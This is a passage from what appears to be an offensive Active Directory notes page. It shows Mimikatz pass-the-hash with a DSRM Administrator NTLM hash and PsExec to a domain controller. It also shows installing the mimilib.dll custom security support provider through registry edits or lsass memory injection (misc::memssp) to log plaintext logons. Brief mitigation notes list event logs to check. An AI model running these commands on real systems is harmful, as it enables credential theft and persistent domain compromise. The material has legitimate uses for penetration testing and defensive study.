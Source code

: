 * Over PassTheHash

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dc01 /user:Administrator /ntlm:a9b30e5b0dc865eadcea9411e4ade72d /run:powershell.exe'

PsExec.exe /accepeula \\dc01.corp.local powershell
```
> **Note**: Is not possible to connect via `PSRemote`, so use `PsExec` instead.

## Mitigation

Look the logs:

* Event ID **4657**: Audit creation/change of `HKLM:\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior`

```powershell
Get-WinEvent -FilterHashtable @{Logname='System';ID=4657} | ?{$_.message -like "*Kernel Mode Driver*"}
```

# Custom Security Support Provider (SSP)

A security support provider is a dll which provides ways for an application to obtain an authenticated connection. Some SSP packages by microsoft are NTLM, kerberos, CredSSP...

Mimikatz provides a custom SSP named `mimilib.dll`. This SSP logs everly local logon, service account and machine account in plain text on the target server.

We can abuse in two different ways:

* Dropping the `mimilib.dll` to `system32` and add mimilib to `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`:

```powershell
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```

* Inject into lsass using mimikatz (not stable with Server 2016):

```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```

All local logons on the domain controller are logged to `C:\Windows\system32\kiwissp.log`.

## Mitigation

Look the logs:
